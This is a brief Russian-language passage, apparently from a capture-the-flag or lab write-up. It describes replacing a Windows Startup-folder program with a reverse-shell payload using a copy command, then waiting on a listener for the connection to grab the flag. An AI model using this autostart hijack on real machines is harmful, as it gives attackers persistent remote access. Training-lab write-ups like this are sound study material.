 Подключаемся к машине и находим программу в автозапуске по пути C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
Создаем файл с полезной нагрузкой и заменяем его ```
copy /Y "shell.exe" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\original.exe" ```

Запускаем слушателя и ждем соединения от системы => забираем флаг